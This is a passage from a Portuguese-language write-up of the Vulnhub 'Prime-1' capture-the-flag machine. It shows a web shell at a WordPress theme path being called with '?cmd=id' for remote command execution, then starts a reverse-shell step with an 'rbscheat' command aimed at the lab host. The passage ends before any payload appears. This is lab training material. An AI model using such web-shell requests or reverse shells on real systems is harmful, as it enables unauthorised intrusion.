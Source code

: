 ![](/assets/img/Vulnhub/Prime-1/php-safado.png)


* Naquela brincadeira sem graca, no comeco do CTF, de fuzzy de diretorios achamos o endereco http://192.168.150.113/wordpress/wp-content/themes/, onde provavelmente sao armazenados os temas da aplicacao.


* Agora temos um **RCE** passando comando via URL

```
http://192.168.150.113/wordpress/wp-content/themes/twentynineteen/secret.php?cmd=id
```

![](/assets/img/Vulnhub/Prime-1/rce-id.png)




## Shell Reverso 


* Primeiro vamos procurar, usando o rbscheat, por um comando php para nos dar um shell reverso

```bash
rbscheat -i 192.168.150.113:443 -l php
```

![](/assets/img/Vulnhub/Prime-1/rbscheat-php.png)
